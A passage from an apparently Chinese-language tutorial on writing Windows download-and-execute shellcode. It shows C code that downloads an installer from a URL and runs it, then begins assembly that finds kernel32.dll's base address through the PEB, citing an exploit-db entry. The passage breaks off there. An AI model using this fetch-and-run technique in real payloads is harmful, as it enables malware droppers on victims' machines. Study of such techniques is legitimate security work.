     因为该应用程序需要**管理员权限**，所以直接使用WinExec运行无法成功

- 换成system函数重新执行成功
    ```c
    #include <stdio.h>
    #include <Urlmon.h>
    #include <stdlib.h>
    #pragma comment(lib,"Urlmon.lib")

    int main()
    {
        if (URLDownloadToFileA(NULL, "https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe", "e:\\test.exe", 0, 0) == S_OK)
        {
            printf("URLDownloadToFile OK\n");
            system("e:\\test.exe");
        }
        else
        {
            printf("URLDownloadToFile Fail,Error:%d\n", GetLastError());
        }
    }
    ```

### 转化成shellcode的过程

#### 编写汇编代码

[asm代码见](./code/win32-download-execute.asm)

##### 创建栈帧

```asm
_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 2 x 16 = 32 bytes
```

##### 寻找kernel32.dll的基址 

> 注：URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以还需要调用LoadLibrary函数(位于Kernel32.dll)
> 查找LoadLibrary的代码参见：https://www.exploit-db.com/exploits/48355

```asm
; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
```
